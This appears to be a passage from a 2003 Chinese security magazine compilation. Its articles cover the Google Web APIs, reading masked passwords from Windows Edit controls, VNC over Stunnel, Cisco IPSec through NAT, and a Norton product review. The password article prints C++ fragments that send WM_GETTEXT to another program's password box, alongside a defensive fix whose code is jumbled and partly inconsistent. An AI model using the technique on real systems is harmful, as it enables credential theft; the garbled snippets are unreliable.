# 黑客防线2003合订本（二）第二部分

---

## [ASP/VBS 程序的实现]

首先，通过下面的 URL 申请一个 Google Web APIs 的序列号：

```
text
https://www.google.com/accounts/NewAccount?
continue=http://api.google.com/
createkey&followup=http://api.google.com/createkey
```

填写完 E-mail 地址和 Password 以后，提交表单，然后到邮箱收一下 E-mail，激活账号，接着就能收到 Licence 了。

> Your Google Web APIs license key is fewCIPdQFHIhHaO+vWpBTjlblc6ajHKN（这就是 Licence 了）。

然后安装 SOAP 组件，本文所提到的 SOAP 组件使用的是 http://www.pocketsoap.com/ 发布的 PocketSOAP v1.4.2（released February 8, 2003）。下载 URL 如下：

```
text
Win32 Version v1.4.2 Packaged Install:
http://www.pocketsoap.com/pocketsoap/PocketSOAP.1.4.2.exe
```

注：Win95 用户需要先安装 DCOM95，Win95/98 用户另外需要安装 SSL 支持。Dcom95 相关 URL： http://www.microsoft.com/com/dcom/dcom95/dcom1_3.asp

我使用的是 Windows 2000 Adv Server，就不需要那么麻烦了，先运行下载的 PocketSOAP 进行安装。安装完成以后，就可以编写代码了。

为了调试的方便，我使用 VBS 进行编写，ASP 和 VBS 本来就如出一辙，稍加修改就可以放到 Web 上了。

代码如下所示光盘路径，把其中代码复制保存到 google.vbs，然后运行 Cscript google.vb 关键字就可以了。

## [Google Web APIs 介绍]

每个 Google 账号和 Licence Key 一天只能自动查询 1000 次，每次最多返回 10 条搜索结果。因此，请求可以找到编写在 990 到 1000 之间的结果，但找不到第 1001 个。使用之前，请仔细阅读 Google 的服务条款（PERSONAL AND LEGITIMATE USES ONLY）。

## 搜索请求

搜索请求提交一个查询字符串和一组参数到 Google Web APIs 服务，然后收到一组搜索结果。搜索结果是由超过 20 亿 Web 页面索引而来。

### Cache请求

Cache 请求提交一个 URL 到 Google Web APIs 服务，然后收到 Google's crawlers 最后访问的页面（如果可以提供）。Cache 页面的返回类型是 Base64 编码格式的文本。

## 拼写建议

Google 搜索引擎意识到用户通常并不知道如何拼写要找的主题，所以内置一个拼写检查器，它可以分析查询，提出建议。不论什么样的搜索，都会有这样的拼写建议。

具体介绍请参阅 http://www.tpoi.net/APIs_Reference.html 或者在 http://www.google.com/apis/download.html 下载一份 Google Web APIs Developer's Kit。

## [脚本执行]

执行命令 `C:\scripts>cscript googlevbs.vbs 雨声论坛` 脚本运行结果如下：

```
text
C:\scripts>cscript googlevbs.vbs 雨声论坛
Microsoft (R) Windows Script Host Version 5.6
版权所有(C) Microsoft Corporation 1996-2001.
保留所有权利。

已向英特网搜索雨声论坛，
共约有308项查询结果。
搜索结果如下：

<b>雨声</b><b>论坛</b>
http://www.rorz.org/

SAS岂个“屁”都是香的 - <b>雨声</b><b>论坛</b>
http://medstar.mytetang.com/faq/soft/aboutsas.htm

<b>雨声</b><b>论坛</b>—论坛首页
http://www.52sp.com/forum/index2.asp

<b>雨声</b><b>论坛</b>
http://www.52sp.com/forum/

风声雨声
http://www.sixin.com.cn/su/bbs/index.asp

Yahoo! Regional: Countries and Regions: Mainland China ...
http://cn.dir.yahoo.com/Regional/Countries-and-Regions/Mainland-China/...

小桥人家之风声<b>雨声</b>
http://xqri.51.net/fsys.htm

欢迎来到流霜之家
http://jlwz0.mytetang.com/

漫画状风雪
http://www.acwind.com/main/main.htm

C:\scripts>
```

## [注释]

上面使用的是我自己申请的序列号，请朋友们在测试的时候最好使用自己申请的序列号。

Google Web APIs Developer's Kit 里面有 VB.net 和 CSharp 的源代码，和我这个机理不一样。有兴趣的读者可以加上 FSO 功能，生成 HTML 页面，或者可以改成 ASP 版本放到服务器上。

# 非法获取密码的原理及其防范

## 一、非法获取 Password 的原理

Edit 控件是 Windows 的一个标准控件，当把其 Password 属性设为 True 时，就会将输入内容的屏蔽为星号，从而达到保护的目的。虽然我们看来都是星号，但程序中的 Edit 控件实际上仍是用户输入的密码，应用程序可以获取该控件中的密码，其他应用程序也可以通过向其发送 WM_GetText 或 EM_GetLine 消息来获取 Edit 控件中的内容。黑客程序正是利用 Edit 控件的这个特性，当发现当前探测的窗口是 Edit 控件，并且具有 ES_Password 属性时，则通过 SendMessage 向此窗口发送 WM_GetText 或 EM_GetLine 消息，这样 Edit 框中的内容就一目了然了。

```
NULL))!=(::GetWindowThreadProcessId(hwndCurr,
NULL))
}
char lpClassName[255];
//获取类名
if(::GetClassName(hwndCurr, lpClassName, 255))
{
//判断是否是 Edit 控件
if(0==m_setWndClass, CompareNoCase("EDIT"))
{
//获取窗口风格
LONG lStyle=::GetWindowLong(hwndCurr,
GWL_STYLE);
//如果设置了 ES_PASSWORD 属性
if(lStyle&ES_PASSWORD)
{
char szText[255];
//通过掌握的句柄 hwndCurr 向此控件发送
WM_GETTEXT 消息
::SendMessage(hwndCurr，WM_GETTEXT，255，
(LPARAM)szText);
//密码已保存在 szText 中。
m_strPassword=szText;
}
}
}
```

## 二、黑客软件工作方法

首先要取得当前的窗口，并判断是否是 Edit 控件，一般多通过鼠标来指定要探测的窗口，例如在 WM_MouseMove 消息的响应函数中进行判断，现列举代码片段如下：

```
// 将客户坐标转换成屏幕坐标
ClientToScreen(&point);
// 返回一个包含指定屏幕坐标点的窗口
CWnd* pWnd=CWnd::WindowFromPoint(point);
if(pWnd)
{
// 获取窗口句柄
HWND hwndCurr=pWnd->GetSafeHwnd();
if((::GetWindowThreadProcessId(GetSafeHwnd(),
```

上述代码中值得注意的有以下几个关键地方：

```
ClientToScreen(&point);
CWnd* pWnd=CWnd::WindowFromPoint(point);
HWND hwndCurr=pWnd->GetSafeHwnd();
```

这 3 句代码可以获得当前鼠标位置所在的窗口句柄，在 SendMessage 中要用到的。

```
cpp
::SendMessage(hwndCurr, WM_GETTEXT, 255,
(LPARAM)szText);
```

这便是真正起作用的 SendMessage 了，其第一个参数指定了要接受消息的窗口句柄，我们已经通过上面的代码找到了，第二个参数就是让 Edit 控件返回字符的 WM_GETTEXT 消息了，并将得到的内容保存在 szText 中。

## 三、防范措施

既然我们搞清楚了黑客软件普遍采用的手法，那我们自然能制定出一套防范其攻击的措施来。下面我们就要对 Password 进行保护。

从以上分析我们可以看出：Edit 控件的漏洞主要在于没有对发送 WM_GetLine 消息者的身份进行检查，只要能找到 Edit 窗口句柄，任何进程都可以获取其内容。所以，必须要对发送消息者的身份进行验证，这里给出一种方法来验证发送消息者的身份是否合法。

创建新 CEdit 类

从 CEdit 继承一个子类 CPasswordEdit，声明全局变量 g_bSenderIdentity 表明消息发送者的身份：

BOOL g_bSenderIdentity

然后响应 CWnd 的虚函数 DefWindowProc，在这个回调函数中进行身份验证：

```
cpp
LRESULT CPasswordEdit::DefWindowProc(
  UINT message, WPARAM wParam,
  LPARAM lParam)
{
    // 对 Edit 的内容获取必须通过以下两个消息之一
    if ((message == WM_GetText) ||
        (message == EM_GETLINE))
    {
        // 检查是否为合法
        if (g_bSenderIdentity)
        {
            // 非法获取，显示信息
            AfxMessageBox(_T("报告：正在试图窃取密码!"));
            return(0);
        }
        // 合法获取
        g_bSenderIdentity = FALSE;
    }
    return CEdit::DefWindowProc(message, wParam,
lParam);
```

在数据输入对话框中做些处理

在对话框中申明这个成员 m_edtPassword：

CpasswordEdit m_edtPassword;

然后，在对话框的 OnInitDialog() 中加入下列代码：

```
cpp
m_edtPassword.SubclassDlgItem(IDC_
EDITN_PASSWORD, this); // 控制与新类做关联。之
后要在对话框的数据交换函数中将身份设为合法
void CDIgInput::DoDataExchange(CDataExchange
*pDX)
{
    // 如果获取数据
    // 注意：对于 CPropertyPage 类这里还需要 if(pDX->
m_bSaveAndValidate) 条件
    if (pDX->m_bSaveAndValidate)
    {
        g_bSenderIdentity = TRUE;
    }
    CDialog::DoDataExchange(pDX);
    //{{AFX_DATA_MAP(CDlgInput)
    DDX_Text(pDX, IDC_EDIT_PASSWORD,
    m_sPassword);
    //}}AFX_DATA_MAP
}
```

这样，Password 输入框就拥有了合法身份，会受到保护。

## 四、结论

以上的方法仅针对 VC 程序，对于其他语言如 VB、Delphi 等，需要借助 VC 做一个 Password 的 ActiveX 控件，实现方法与上述方法基本类似，以上程序均用 Visual C++6.0 编制调试通过。

# Remote Desktop Management Solution for Microsoft

一个理想的远程管理方案首先一定是高效的。虽然在 UNIX 系统情况下，模拟终端命令行模式进行管理还是比较令人满意的。但是，使用这种方式来管理 Windows 远程服务是远远不够的，因为 Windows 是一个基于图形环境的操作系统，远程管理也应该使用一种图形方式实现。除了高效，远程管理还必须建立在安全的基础上。本文提出的这个解决办法不仅为用户提供鉴定，而且也保证被传送的数据的机密性和完整性。

在现有的各种远程管理软件中，VNC 是一个免费的开放源代码的软件，但是不提供加密功能，而另外一些第三方公司提供的远程管理方案中，虽然具有很高的安全性能，却又大大增加了成本。本文所提供的方案中，完全利用免费的软件，如 VNC、OpenSSL 等，增加了 CA 认证和鉴别功能，大大提高了远程管理的安全性，而且还尽可能地把成本降到最低。这个方案非常适合对安全性能要求比较高并且希望将成本降到最低的一些中小型的企业和局域网。

# Microsoft 操作系统远程安全管理实施方案

文/artur.maj　译/netone

对于很多的微软系统的管理员来说，都面临着一个以怎样的安全方式管理远程系统的问题。在 UNIX 系统中，这个答案十分简单：使用 SSH 协议，这是足够安全和有效的。在 SSH 方式下，我们不仅能在命令行下管理远程系统，我们也能通过使用隧道技术（Tunnling）运行远程 X-Window。在传输过程中通过使用强壮的加密算法，以防止传送的数据被未经授权的访问。

令人遗憾的是，如果把远程安全访问应用于微软操作系统就不是一件非常容易的事了。首先，仅仅 NT 终端服务器、Windows 2000 服务器和 XP 安装有远程管理服务（终端服务）。第二，一些第三方公司提供给微软远程管理服务的实施方案中，一般都需要很大的成本支出。且随着方案的进一步实施，成本也越来越高。而一些免费的远程管理软件如（VNC）又无法提供加密传输功能，安全性能大打折扣。

这篇文章提出的一种能用来远程管理从 Windows 95 到 Windows XP 几乎所有版本的微软操作系统的方案。这种方案的特点不仅表现在最小费用支出上，而且还具有较高的安全性。

## 关键词

- **SSH**：（Secure Shell）用于提供安全的远程登录和其他安全网络服务。
- **SSL**：（Secure socket Layer）安全套接层协议。
- **Tunnel**：网络隧道，指的是利用一种网络协议来传输另一种网络协议。
- **VNC**：（Virtual Network Computing）跨平台、免费、开放源代码的一款远程管理软件，由两部分部件组成：服务端（Server）和客户端（Viewer）。
- **Stunnel**：一种程序，可以使用 OpenSSL 库对任意 TCP 会话进行加密。
- **OpenSSL**：一个非常优秀的 SSL/TLS 开放源码软件包，它包括 SSL 库、加密算法库以及应用程序 3 大部分。

## 一、解决方案

一个理想的远程管理方案应该有什么特征？首先，这个解决办法一定是高效的。虽然在 UNIX 系统情况下，模拟终端命令行模式进行管理还是比较满意的。但是，使用这种方式来管理 Windows 远程服务是远远不够的，因为 Windows 是一个基于图形环境的操作系统，远程管理也应该使用一种图形方式实现。除了高效，远程管理还必须建立在安全的基础上。这个解决办法必须不仅为用户提供鉴定，而且也必须保证被传送的数据的机密性和完整性。

在这篇文章中讨论的远程管理方案中，通过使用以下开放源代码软件，来达到以上要求。

- 1. **VNC（Virtual Network Computing）** 提供图形界面方式管理远程系统。在我们的方案里，VNC 软件将是这个整个的解决办法的“核心”。它将提供图形界面来连接远程操作系统。
- 2. **Stunnel** 的主要目的是建立能用来以安全的方式传送其他非加密协议传输的数据的 SSL 隧道。在本文的解决办法中，这个工具将用来加密 VNC 协议。在 Stunnel 下，不仅可以保证被传送的数据的机密性和完整性，也可以利用证书鉴别 VNC 客户端和服务器。
- 3. **OpenSSL** 能提供一个加密函数库，它能用来为应用程序提供数据加密功能。通过使用 OpenSSL，我们能产生签署或者撤销基于公共密钥基础结构（PKI）的证书。在下面提出的这种方案中，将用来产生并且签署需要证实 VNC 客户端和服务器的证书。

图 1 显示了使用以上软件来提供一个安全的远程管理方案。

## 二、安装软件

实现此安全管理远程 Microsoft 系统的第一步是安装以上软件。

### 1. 安装 VNC

我们可以在这里 http://www.uk.research.att.com/vnc/ 下载 VNC，然后安装在我们希望能够被远程管理的桌面操作系统，即 VNC 服务端，接下来所做的是需要注册 VNC 服务，注册方法：依次打开 “开始” → “RealVNC” → “VNC Server” → “Register VNC Server Service”，然后系统将会要求重启。重启系统之后，我们必须设置 VNC 服务的基本参数。最重要的是设置一个有效的口令，以防止 VNC 服务被未经授权的访问。下一步，关闭 “enable java viewer” 选项（此选择要求两条单独的 SSL 隧道，我们将不使用它），如图 2 所示：

在完成 VNC 服务端设置之后，我们应该下载 VNC 客户软件（vncviewer.exe），并且将它放于 VNC 客户端。接着，应该检查 VNC 客户端是否能与 VNC 服务端建立起一个连接，如果双方能够建立起连接，我们便完成了初步的设置。由于 VNC 服务端只能被本地安装的 Stunnel 软件所访问，所以我们需要在注册表中添加一个键值：

```
Key:
HKEY_LOCAL_MACHINE\Software\ORL\WinVNC3
Name:
LoopbackOnly
Type: REG_DWORD
Value: 1
```

以上键值的作用是使之能够使用 loopback 连接（回送连接），并且限制监听端口 5900 的连接只能是本地 IP（127.0.0.1），这样，VNC 服务器就不会被网络上的机器直接访问，大大地提高了安全性。另外，如果我们不希望用户关闭 VNC 服务的话，服务器的注册表应该增加一项：

```
Key:
HKEY_LOCAL_MACHINE\Software\ORL\WinVNC3\Default
Name: AllowShutdown
Type: REG_DWORD
Value: 0
```

为了使以上设置生效，我们应该重启 VNC 服务。

### 2. 安装 Stunnel

接下来，安装 Stunnel 软件，下载地址: http://www.stunnel.org/download/binaries.html，客户端和服务端均需要下载，在本例中放置在 C:\Program Files\Stunnel。

另外，还需要下载 2 个必须的 dll 库文件和 libeay32.dll，libssl32.dll，如图 3 的位置所示。

如果希望开机时自动启动 Stunnel 进程，应该在注册表中添加如下键值：

```
Key: HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
Name: Stunnel
Type: REG_SZ
Value: "C:\Program Files\Stunnel\stunnel-4.04.exe"
```

### 3. 安装 OpenSSL

大家都知道，在现在的大多数 Linux 版本中，典型安装就已经包括了 OpenSSL 库，这主要是因为 OpenSSL 库是安装 OpenSSH 所必须的组件。其实，还有另外一种版本的 OpenSSL 适合使用于微软操作系统上的，和 Linux 下的具有相同的功能。在本文所提到的这个方案中，我们需要的就是这种在 Windows 平台下的 OpenSSL。

- 1. 下面我们来安装和设置 OpenSSL 服务：
- 2. 信任主机(Windows 2000/NT/XP) — 如果可能，最好不要连接到网上，需要安装 OpenSSL 软件，openssl.exe 可以在 Stunnel 的官方站点下载 http://www.stunnel.org/download/binaries.html，同样，我们还需要下载 libeay32.dll 和 libssl32.dll 2 个文件，下载文件必须放到 C:\Program Files\OpenSSL 文件夹。

（2）另外，还需要下载两个文件，一个配置文件 openssl.conf，可以从 http://www.securityfocus.com/data/tools/openssl.conf 下载，另外一个是 ca.bat 脚本文件，用来生成证书，下载地址：http://www.securityfocus.com/data/tools/ca.bat，这两个文件也必须放置到 C:\Program Files\OpenSSL 文件夹，如图 4 所示。

## 三、生成密匙和证书

在完成软件安装后，接下来应该生成证书，用来鉴别 VNC 的服务器和客户端。

### 1. CA 认证

这个过程首先应该产生一个私人/公共密钥对，同时产生一个第三方信任的证书。在随后的过程中私人密匙将用来签发 VNC 服务端和客户端的证书，CA 证书将被分配给所有的 VNC 服务端和客户端。因为 CA 私人密钥是 PKI 执行过程中，最重要的基础之一，所以密匙应该被赋予一个通行码(pass phrase)。通行码也可以被称作口令，是用来保护私匙的密码，用户可以自由选择。

用私匙的，因此口令和私匙同样重要，需要选取一个安全的口令。

我们通过 ca.bat 这个批处理文件来产生密匙对和证书，如图 5 所示：

```
C:\progra~1\OpenSSL\ca genca
```

完成以上步骤之后，CA 证书将存储在 C:\ca\cacert.pem 文件中，私人/公共密匙对存储在 C:\CA\private\CAkey.pem 文件中。

### 2. VNC 服务端

接下来，产生服务端的密匙对和证书，如图 6 所示。

```
C:\progra~1\OpenSSL\ca server
```

于是，在 C:\CA\temp\vnc_server 生成如下文件：

- server.key – 私人/公共密匙对
- server.crt – 服务器端的证书
- server.pem – server.key + server.crt（在使用 Stunnel 时将用到）

应该强调的是，服务端的私匙并没有使用通行码来增强安全，使用通行码来加密私匙的方法并没有在这里派上用场，主要是因为 Stunnel 尚不支持通行码；其次，是用通行码加密后的私匙将不能被用于 Stunnel 软件。

### 3. VNC 客户端

最后一步是产生客户端的密匙对和证书，如图 7 所示。

```
C:\progra~1\OpenSSL\ca client
```

跟服务端类似，在 C:\CA\temp\vnc_client 文件夹中将产生如下文件：

- client.key – 私人/公共密匙对
- client.crt – 客户端证书
- client.pem – client.key + client.crt（在使用 Stunnel 时将用到）

## 四、Stunnel 设置

### 1. VNC 服务端

在建立起服务段和客户端的一种安全传输模式前，我们必须设置好 Stunnel 软件，并且安装必需的密匙和证书。

在 C:\Program Files\Stunnel 文件夹中新建一个 stunnel.conf 文件，文件内容为：

```
CAfile = CAcert.pem
CApath = certificates
cert = server.pem
client = no
verify = 3

[vnc]
accept = 443
connect = 127.0.0.1:5900
```

通过以上设置，使得所有连接 TCP 443 端口的连接转向到本地 TCP 5900 端口，当然有个前提，那就是客户端必须提供有效的证书。

接下来，将 CA 证书(C:\CA\CAcert.pem)和 VNC 服务端的密匙，证书(C:\CA\temp\vnc_server\server.pem)放到 C:\Program Files\Stunnel。最后，我们还必须安装 VNC 客户端证书，要想使隧道程序在鉴定过程中找到证书，我们必须按照以下方法来更改证书名称。以下命令必须在产生证书的服务器上运行，其中 value 为运行 openssl x509 命令之后的输出结果，在使用 copy 命令时，value 必须要用这个实际的输出结果代替，如图 8 所示。

```
cd C:\CA\temp\vnc_client
C:\progra~1\openssl\openssl x509 -hash -noout -in client.crt
value
copy client.crt value.0
```

然后，这个 value.0 文件应该被放到 C:\Program Files\Stunnel\certificates 如图 9 所示。

### 2. VNC 客户端

在客户端配置的情况和以上的步骤类似。首先，在 C:\Program Files\Stunnel\ 新建一个 stunnel.conf 文件

```
内容：
CAfile = CAcert.pem
CApath = certificates
cert = client.pem
client = yes
verify = 3

[vnc]
accept = 127.0.0.1:5900
connect = VNC_server_IP_address:443
```

接下来，将 CA 证书(C:\CA\CAcert.pem)和 VNC 服务端的密匙，证书(C:\CA\temp\vnc_server\server.pem)放到 C:\Program Files\Stunnel，同样，我们需要按照以下方法来更改证书名称，如图 10 所示。

```
cd C:\CA\temp\vnc_server
C:\progra~1\openssl\openssl x509 -hash -noout -in server.crt
value
copy server.crt value.0
```

然后，这个 value.0 文件应该被放到 C:\Program Files\Stunnel\certificates。

最后，C:\Program Files\Stunnel 这个文件夹应该是如图 11 所示：

## 五、测试连接

到此时为止所有的设置都已完成，为了测试，我们必须在客户端和服务器端同时开启网络隧道，同时开启 VNC 服务端。

在服务端，如图 12 所示。
在客户端，如图 13 所示。

如果由于某种原因，没有能够成功地建立起连接，我们应该提高 Stunnel 的登陆级别，并且找出错的原因，这时我们需要在 stunnel.conf 文件中添加一行：

```
debug = 7
```

然后，重启 stunnel 服务，并再次测试连接。

## 六、反向连接

在上面的设置中，只有当 VNC 服务器具有独立的公网 IP，或者与 VNC 客户端同处在一个局域网中，才能够进行成功的连接。如果 VNC 服务端处于 NAT(network address translation) 后面或者访问连接服务器的信息包被防火墙丢弃，那么以上连接根本无法实现，那该怎么办？

由于 VNC 服务器具有 “/listen” 选项，所以有可能突破以上的限制。在传统的 c-s 模式传输中是由客户端发起连接的，但是现在不仅是客户端可以发起连接，服务端本身也可以反向连接，惟一的要求就是服务端和客户端能够进行连接。当然，这个要求客户端不能在 NAT 反向代理之后，也不能被防火墙截住了信息包。

如前所述，VNC 具有反向连接功能，要想使用这个功能，VNC 服务器上的 stunnel.conf 文件应该做少量改动：

```
CAfile = CACert.pem
CApath = certificates
cert = server.pem
client = yes
verify = 3

[vnc]
accept = 127.0.0.1:5500
connect = VNC_client_IP_address:443
```

同样，VNC 客户端的 stunnel.conf 也应该做一下改动：

```
CAfile = CACert.pem
CApath = certificates
cert = client.pem
client = no
verify = 3

[vnc]
accept = 443
connect = 127.0.0.1:5500
```

此时，服务端的 stunnel 软件变成了 SSL 的客户端，而客户端的 stunnel 则变成了 SSL 服务端。当然，服务端和客户端建立连接的方法也将改变，首先客户端打开 vncviewer.exe，进入监听模式（依次打开开始菜单→RealVNC→VNC Viewer→Run Listening VNC Viewer）。同时，在服务端，我们使用添加客户端选项，如图 14 所示：

以上对于在 NAT 代理下的服务器非常有效，但是同时它也有个弊端，那就是必须要在服务器段进行手动操作，是否有一种方法可以不需要人为操作直接实现呢？

这个方案是可行的，它可以使用微软操作系统中的计划任务来实现，图 15 显示了如何通过计划任务来设置 VNC 服务端在每天的上午 9 点到下午 9 点每隔 10 分钟进行自动反向连接，当我们想在客户端进行连接的话，所要做的只是将 vncviewer.exe 设置为监听模式，最多 10 分钟就将等到来自服务端的主动连接。

# IPSec 穿越 NAT 的实现与应用

文/小庄

虚拟专用网络能够利用 Internet 或其他公共互联网网络的基础设施为用户创建隧道，并提供与专用网络一样的安全和功能保障。

企业分支机构与总部之间可以通过 IPSec 方式建立安全信道，有两种常用方式：site-to-site 和 point-to-site 方式。Site-to-site 是通过节点边界的网关建立 VPN，这种方式将节点两边的网络通过 VPN 互联，之间的通信全部使用 VPN 加密方式，这对于边界网关的性能要求较高。point-to-site 方式是在分支网络中，由某一 IP 设备发起 VPN 连接，到对端边界终结，这种方式占用网络边界系统资源少，对边界网络对性能要求较低，组网方式灵活。在企业信息网中，分支机构可以仅仅 OA 服务器挂在总部 VPN 中的方式进行安全通信，本地分支机构的员工需要访问总部资源时，则可以访问本地分支机构的服务器共享资源，以实现企业网络内部的安全通信。

这里，将详细介绍有关在两台 Cisco2600 之间进行配置 point-to-site 方式的 VPN 互联，这里需要使用 IPSec 穿越 NAT 技术，下面将对主要步骤作简要说明。

## 拓扑结构

拓扑结构比较简单，企业总部是由一台 Cisco 中端产品作为边界路由器，承担 VPN 终结对任务，另一端是分支机构，通过边界路由器联入互联网，其内部有一台 OA 服务器与总部建立 VPN 连接，以实现分支机构与总部服务的安全通信。由图 1 所示。

## 总部 VPN 网关配置

在 Cisco 技术支持网站上有其详细的配置，这里将就主要的配置作详细的说明。具体配置可以参考：

http://www.cisco.com/en/US/tech/tk583/tk372/technologies_configuration_example09186a00800949ef.shtml

根据 VPN 建立过程，可以划分为以下几个阶段：

### 第一阶段：IKE 协商

IKE 协商主要涉及密钥交换方式、采用的加密算法。一般来讲，会有以下参数需要设置：加密算法、散列函数（hash）、认证方式。

在具体配置 Cisco 路由器的时候，应首先建立 ISAKMP 策略集，然后依次配置其加密算法、散列函数和认证方式。

下面是从 Cisco 技术支持网站的 running-config 摘下来的，请参考。

```
crypto isakmp policy 3
encr des
authentication pre-share
group 2
```

说明一下：encr des 表示加密采用 des 算法，注意在国内只有 des 算法可以用，因为美国对加密有出口限制。authentication pre-share 表示初始协商时使用预先设置的共享密钥。密钥的具体配置在后面配置 VPN 用户组参数时配置。

### 第二阶段：用户组配置

用户组的配置主要是对发出请求接入的用户进行初始化协商、身份确认、分配 IP 资源，以及告知

## 用户其中内部网络支撑系统资源配置情况。一般涉及下列参数：初始化协商所需的密钥、用户认证方式、用户可以使用的IP地址资源、用户接入内部网络后其 DNS、WINS、域名后缀等基本信息参数。

```
text
crypto isakmp client configuration group 3000client
 key cisco123
 dns 14.1.1.10
 wins 14.1.1.20
 domain cisco.com
 pool ippool
```

由于我们采用的是共享密钥方式，因此，在这里需要设置key的具体值。另外，pool 设置可以参照下面实例。

```
text
ip local pool ippool 14.1.1.100 14.1.1.200
```

### 第三阶段：用户信道参数

用户信道参数的设置是对用户建立 VPN 通道可以采用的算法集合进行界定，以方便通讯双方协商其具体通信过程中所采用的加密算法，并建立映射关系。一般需要设置 transform-set 和 map 集。

```
text
crypto dynamic-map dynmap 10
 set transform-set myset
 !
 crypto map clientmap client authentication list userauthen
 crypto map clientmap isakmp authorization list groupauthor
 crypto map clientmap client configuration address respond
 crypto map clientmap 10 ipsec-isakmp dynamic dynmap
```

需要说明的是，VPN 组网方式有 2 大类：peer-to-peer 和 point-to-peer 的方式。这里是后者，后者的一个特点是用户 IP 是动态的，因此，这里的映射集合应该为动态的。另外，这里具体配置了用户认证的方式，为使用本地用户数据库认证。具体配置为：

```
text
aaa new-model
!
aaa authentication login userauthen local
aaa authorization network groupauthor local
!
username cisco password 0 cisco
```

其中，用户名为 cisco，口令为 cisco。

transform-set 的配置可以参考如下配置：

```
text
crypto ipsec transform-set myset esp-des esp-sha-hmac
```

VPN 用户认证是通过总部 RADIUS 服务器实现的，其配置如下：

首先，新增一个 AAA 策略：

```
text
aaa authentication login userauthen group radius
```

然后，设置 RADIUS 服务器 IP，以及与服务器之间的认证口令、认证端口信息等。

```
text
radius-server host 10.17.42.134 auth-port 1645
acct-port 1646 key WinRadius
```

最后，设置认证服务的参数，主要是设置认证尝试的次数。

```
text
radius-server retransmit 3
```

## 分支机构 NAT 路由器配置

分支机构内服务器只需要通过静态路由将分支机构的 OA 服务器映射为公网地址，使之可以通过公网访问到总部 VPN 网关。

主要配置如下：

```
text
ipnat inside source static 192.168.0.2 172.16.0.3
```

而在服务器上，则需要安装 VPN 客户端软件，这里是使用了 Cisco VPN Client 3000。主要配置是：

- 1. 设置 VPN 网关 IP；
2. 设置用户认证口令和用户名。

这里，我们使用了总部 RADIUS 服务器的用户认证信息。

## 需要注意时间问题

## 路由问题

需要将接入用户的 IP 路由信息进行配置，否则将不能访问内部服务器，而只能 ping 通网关。可以采用加静态路由方式，给 VPN 地址池用户的 IP（14.1.1.100 14.1.1.200）指明 VPN 网关的接口为其默认路由关口。

```
text
ip route 14.1.1.0 255.255.255.0 FastEthernet0/0
```

其中，FastEthernet0/0 为 172 网段所在的外口。

## 边界安全影响

通常情况下，一般网络边缘会配置一定的网络访问控制策略。如果配置了拒绝 UDP 协议或者只允许部分 UDP 端口访问的策略的话，那么会影响 VPN 通道的建立。因为 IKE 协商时会使用 UDP 500 端口进行协商。因此，还需要对开放必要的端口资源，具体配置请参阅有关资料。

尽管网络是越来越不安全，但我们能否放弃？不能，那我们是否有办法能够让自己自由并且安全地遨游于网络之中呢？答案是肯定的。下面我们就向大家介绍一款有效的网络安全软件，相信它一定能够满足大家的需求。

# 诺顿网络安全特警

文 / sky_whu

当打开电脑，或许我们就会习惯性地点击IE或者只小企鹅。的确，网络给我们带来了极大的便利：上网查资料、和朋友聊天、收发E-mail……我们确实是越来越依赖于互联网。没有互联网，我们的学习、工作将会受到很大的影响。我们是否曾经这样问过自己：这个网络安全吗？谁来保护我们的安全呢？

## 一、这个网络安全吗？

从计算机接通互联网的那一刻开始，我们就有太多安全问题需要考虑。

- 黑客恶意攻击
- 恶意网页代码
- 不适当的内容
- 个人隐私
- 计算机病毒
- 垃圾邮件及广告

## 二、谁来保护我们的安全？

有矛必有盾，既然网络如此的不安全，自然应该有好的安全产品来保障我们的安全。下面我们介绍一款优秀的安全产品：诺顿网络安全特警（Symantec Internet Security），它可以有效地解决上面所提到的安全隐患。

增强的可用性包括一个简化用户界面，有自动保护、网络连接报警、可阻挡所有互联网通信的按键和一个可视安全监视器（图1）。

诺顿网络安全特警将反病毒软件、个人防火墙、入侵检测、隐私控制、垃圾邮件报警、禁止广告和父母控制等模块有效地结合起来，对电脑进行了全面的防护（图2）。下面就这些模块逐一加以介绍和分析：

### 1. 个人防火墙

打开个人防火墙的配置，我们会发现图3所示窗口，在这里它分为个人防火墙、程序控制、家庭网络、高级4个配置菜单。

#### （1）个人防火墙

不同的环境需要不同的安全级别，安全级别太高可能对我们的限制就会太多，级别太低则可能安全措施不够，这样我们需要从中找到一个平衡点。在个人防火墙配置里面，我们可以设置是否启用防火墙，以及防火墙的安全级别。我们也可以自定义级别，在自定义级别中我们可以选择是否允许 Java 程序，是否允许 ActiveX 程序，这可以有效地防御网页恶意代码；另外，它还可以设置“当从未使用过的端口被访问时发出警告”，这样当有木马程序端连接我们的机器时就会发出警报。

#### （2）程序控制

一般来说，我们需要连接到 Internet 的应用程序是有限的，并且多数是我们自己熟悉的。如果我们可以将需要连接到 Internet 的程序放置在一个安全程序列表中，这样当有非我们所允许的程序（譬如木马）试图连接 Internet 时，就立刻发出警报。程序控制配置菜单正是为这个目的而设置的，我们只需将需要连接到 Internet 的程序放在这个列表之中，并且我们可以为每一个网络程序制定程序规则，譬如，是否禁止连接、进出站的方向、所使用的协议、是否需要进行日志跟踪、该程序所使用的端口，甚至可以控制该程序允许连接的计算机和站点。这样，我们就可以有效地控制网络程序安全地运行。

#### （3）家庭网络

一般用户在上网的过程中，可能并不希望其他用户对自己的计算机进行访问和连接，或者只希望自己信任的计算机可以访问。“家庭网络”就是为了这个顾虑而考虑设计的，在这个配置菜单中，您可以将所信任的机器 IP 放在信任区域，譬如一个本地局域网段。同样，您也可以将自己不信任的机器放到限制区域中。

#### （4）高级

个人防火墙使用一系列规则来控制其保护计算机的方式，防火墙会自动按照这些规则对进出数据进行检查。对于大多数用户来说，并不需要更改防火墙的默认规则。但是，诺顿网络安全特警也允许用户方便地修改其中的规则，这些规则分为一般规则和特洛伊木马规则两种。一般规则提供了基本的网络功能，它防止计算机遭受已知的网络风险，在这个规则中存在一个列表，这些列表中的内容就像一个筛选器，用户可以对其进行修改或添加以达到自己的安全目标，并且这些规则存在一个先后顺序。特洛伊木马规则用来防御那些允许对计算机进行访问的恶意应用程序，在这里，对每一种已知木马的特点（譬如使用的端口号）都进行了专门的配置。这样，当有这种木马进行访问的时候，防火墙便将它拒之门外。

### 2. 入侵检测

所谓入侵检测就是指对您计算机所遇到的黑客入侵进行有效的检测，当发现有特定的攻击存在时，便发出报警或对发起攻击的机器采取某些措施。

